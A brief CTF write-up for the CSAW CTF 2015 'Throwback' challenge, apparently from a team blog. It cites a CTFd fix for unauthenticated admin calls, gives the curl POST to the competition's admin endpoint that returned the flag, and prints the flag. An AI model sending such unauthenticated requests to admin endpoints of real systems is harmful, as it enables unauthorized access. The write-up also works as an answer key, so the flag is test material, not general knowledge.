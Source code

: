 ```yaml
---
author: Hypersonic
comments: true
date: 2015-09-21 11:37+00:00
layout: post
slug: csaw-ctf-throwback
title: CSAW CTF 2015 - Throwback
---
```


1. We can see a recent bugfix to CTFd, preventing unauthed admin calls at [https://github.com/isislab/CTFd/commit/9578355143d7af675fc4776b0f2de802be91e261](https://github.com/isislab/CTFd/commit/9578355143d7af675fc4776b0f2de802be91e261).

2. We make a POST request to it with cURL with: `curl -da=a https://ctf.isis.poly.edu/admin/chal/new`.

3. We get back the flag: `flag{at_least_it_isnt_php}`.

4. Unwrap the flag (remove the `flag{}` around it), and we get the solution: `at_least_it_isnt_php`.
